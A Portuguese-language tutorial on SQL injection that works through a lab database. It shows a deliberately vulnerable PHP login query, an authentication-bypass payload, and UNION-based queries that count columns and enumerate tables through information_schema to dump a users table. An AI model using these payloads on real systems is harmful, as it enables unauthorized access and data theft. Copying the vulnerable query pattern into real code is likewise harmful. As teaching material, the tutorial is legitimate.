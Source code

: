 # SQL Injection

O SQL injection, é uma das técnicas de vulnerabilidades web mais conhecida. Ela consiste em basicamente passar uma query SQL em um input que se o banco de dados não tiver um tratamento correto dessa entrada, pode acabar resultado em um vetor de ataque caso essa query seja maliciosa.

## Basic Bypass Authentication

Vamos supor que o backend trata a entrada de um login da seguinte forma abaixo.

```php
$user = $_POST['user'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE user = '$user' AND pass '$password'"; 
```

O problema é que a query que irá para o banco de dados não está sendo filtrada corretamente, passando os parâmetros exatamente como o usuário digita e isso pode ocasionar a vulnerabilidade.

Vamos então utilizar o payload mais básico para explorar essa falha. A ideia a seguir, é utilizar o campo do usuário para bypassar a consulta. Primeiro temos que fechar as aspas simples e utilizar uma condição de **ou** para que assim a query retorne **true** e por fim comentar o resto para que seja ignorado, com isso irá trazer os resultados no banco de dados. O payload final fica da seguinte forma: `' or 1=1 #` ou `' or 1=1 --`. (_o comentário # e -- varia de acordo com o banco de dados_.)

Com isso, no banco de dados vai retornar o primeiro usuário que a consulta buscar, autenticando assim na aplicação com este usuário.

```sql
SELECT * FROM users WHERE user = '' or 1=1 -- ' AND pass 'password123" 
```

## Error-based SQL Injection

Esse é um tipo de injeção que retorna um erro para o usuário. Para triggar este erro, podemos passar, por exemplo, uma aspas simples para ver o que a aplicação retorna (essa aspas simples irá fechar a consulta no parâmetro que for passado). Se for vulnerável, geralmente provavelmente irá retornar uma mensagem de erro do tipo `Search SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax;`.

Com isso, podemos utilizar o `union` do SQL para unir uma nova consulta, e passar um %23 que significa o caractere # encodado, já que estamos enviando essas informações pela url (irá comentar o resto da query que estiver no banco). Além do **"**#", poderia ser passado também um ponto e vírgula ou uma aspas simples, depende de como a aplicação foi feita.

```
' or 1=1 union select 1; #
```

<div data-full-width="false"><figure><img src="../.gitbook/assets/error-based-sqli-1.png" alt=""><figcaption></figcaption></figure></div>

Assim, conseguimos descobrir a quantidade de colunas que possui, podemos tentar ir aumentando até não retornar nenhum erro.

Nesse caso, podemos descobrir que a quantidade de colunas na tabela de produtos são no total 6. Podemos perceber também que é refletido os valores que inserimos sendo criado uma nova visualização na consulta.

<figure><img src="../.gitbook/assets/error-based-sqli-2.png" alt=""><figcaption></figcaption></figure>

A consulta final ficará assim, sendo completamente correta e com isso retorna as informações.

```sql
SELECT * FROM products WHERE name like '%' or 1=1 union select 1, 2, 3, 4, 5, 6; #%'
```

<figure><img src="../.gitbook/assets/error-based-sqli-3 (1).png" alt=""><figcaption></figcaption></figure>

Agora que conseguimos descobrir corretamente a quantidade de colunas e fazer a consulta funcionar como queríamos, podemos tirar vantagem disso para buscar informações do banco de dados, podemos usar funções do MySQL (banco de dados utilizado) como `user()`, `database()`, `version()` entre outras.

<figure><img src="../.gitbook/assets/error-based-sqli-4.png" alt=""><figcaption></figcaption></figure>

Podemos agora buscar na tabela `information_schema` pela tabela que descobrirmos anteriormente.

```sql
' union select 1, table_name, 3, 4, 5, 6 from information_schema.tables WHERE TABLE_SCHEMA="lab"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-5.png" alt=""><figcaption></figcaption></figure>

Uma vez que descobrimos o nome das tabelas, podemos ver que existe a tabela `users`. Com isso, nós conseguimos descobrir as colunas:

```sql
' union select 1, column_name, 3, 4, 5, 6 from information_schema.columns where TABLE_SCHEMA="lab" and TABLE_NAME="users"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-6.png" alt=""><figcaption></figcaption></figure>

Agora que já sabemos quais os nome das colunas, podemos fazer a busca diretamente na tabela de `users`.

<figure><img src="../.gitbook/assets/error-based-sqli-7.png" alt=""><figcaption></figcaption></figure>

Pronto! Dessa forma que conseguimos explorar o Error-based SQL Injection.

